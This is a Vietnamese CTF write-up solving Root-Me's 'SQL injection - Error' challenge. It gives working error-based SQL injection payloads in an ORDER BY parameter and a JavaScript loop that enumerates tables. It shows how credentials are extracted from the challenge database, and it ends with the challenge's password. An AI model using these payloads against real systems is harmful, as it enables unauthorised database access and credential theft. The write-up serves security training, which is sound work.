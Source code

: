 # Challenge: SQL injection - Error
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Error

- Bài này thì có 1 form đăng nhập, và 1 trang nội dung, nội dung này có thể chứa flag khi chúng tra truy cập được vào tài khoản admin
<p align="center"><img src="./images/7.1.png"></p>
<p align="center"><img src="./images/7.2.png"></p>

- Thử với các lỗi sql injection đã gặp tuy nhiên không khả thi. 
- Tìm kiếm thông tin thêm từ google `error based sql injection`
https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf

- Thử thêm kí tự `'` vào cuối đường dẫn trang content ta thấy có lỗi xảy ra
<p align="center"><img src="./images/7.3.png"></p>

- Để hiển thị các bảng trong Mysql ta dùng lệnh `select table_name from information_schema.tables`, do đó ta thửu với input của tham số order là `ASC,+(cast((select table_name from information_schema.tables) as int))` 
<p align="center"><img src="./images/7.4.png"></p>

- Khi đó ta thấy màn hình xuất ra lỗi ko thể trả về nhiều hơn một dòng, do vậy ta sẽ dùng thêm `limit 1` --> sửa lại order=`ASC,+(cast((select table_name from information_schema.tables limit 1) as int))` --> Ta thấy có 1 bảng `m3mbr35t4bl3`
<p align="center"><img src="./images/7.5.png"></p>

- ta biết rằng trong information_schema.tables sẽ có rất nhiều bảng gồm nhiều bảng mặc định có sẵn, để lọc ra những bảng do người dùng tao, cũng giống như những bài trước đó, ta sẽ dùng câu lệnh truy vấn sql sau đây `select table_name from information_schema.tables where table_schema = database()` sửa lại order=`ASC,+(cast((select table_name from information_schema.tables where table_schema = database() limit 1) as int))` 
<p align="center"><img src="./images/7.6.png"></p>

- Ta nhận được thông báo lỗi không tồn tại hàm database(), do vậy để đơn giản gì chúng ta thử tìm kiếm thêm thử có bảng nào với tên lạ nào khác bằng cách dùng `offset` khi đó trường order=`ASC,+(cast((select table_name from information_schema.tables limit 1 offset 1) as int))`
Ta được một số bảng như pg_type, contents, pg_roles, pg_group, pg_user
```
function getTables(x){
    var xhttp = new XMLHttpRequest();
    url = 'http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC,+(cast((select table_name from information_schema.tables limit 1 offset ' + x + ') as int))'
    xhttp.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            document.getElementsByTagName('h3')[1].innerText += '\n' + xhttp.responseText.replace('"</body></html>','').substr(443);
        }
    };
    xhttp.open("GET", url, true);
    xhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
    xhttp.send();
}
for (i=0;i<100;i++) getTables(i);
```
<p align="center"><img src="./images/7.7.png"></p>

- Dường như những bảng mặt định thì nó có 'pg_' do vậy ta sẽ bỏ đi những bảng này, lúc này chỉ còn 2 bảng `contents` và `m3mbr35t4bl3`
<p align="center"><img src="./images/7.8.png"></p>

- bình thường tìm các cột có trong bảng m3mbr35t4bl3 trường order=`ASC,+(cast((select column_name from information_schema.columns where table_name = 'm3mbr35t4bl3' limit 1 offset 1) as int))` tuy nhiên nó bị lỗi nên ta cứ thử show hết các tên cột có trong information_schema.columns, khi đó order=`ASC,+(cast((select column_name from information_schema.columns limit 1 offset 1) as int))` --> `us3rn4m3_c0l`

<p align="center"><img src="./images/7.10.png"></p>
--> mạnh tay bỏ đi những trường dễ đọc, ta còn lại us3rn4m3_c0l, p455w0rd_c0l, em41l_c0l

- Đến đây ta ta đoán được thông tin, có 2 bảng là m3mbr35t4bl3 và content, và các cột có trong bảng m3mbr35t4bl3 là us3rn4m3_c0l, p455w0rd_c0l, em41l_c0l 
- Ta cần show ra thông tin tài khoản có trong bảng m3mbr35t4bl3, -->
order=`ASC,+(cast((select us3rn4m3_c0l,p455w0rd_c0l from m3mbr35t4bl3 limit 1) as int))`
<p align="center"><img src="./images/7.11.png"></p>
- Chỉ cho show 1 cột... OK
- Lấy username --> admin 
<p align="center"><img src="./images/7.12.png"></p> 
- Lấy password --> 1a2BdKT5DIx3qxQN3UaC
<p align="center"><img src="./images/7.13.png"></p>
- Đăng nhập và nhận kết quả
<p align="center"><img src="./images/7.14.png"></p>

## Kết quả password là `1a2BdKT5DIx3qxQN3UaC`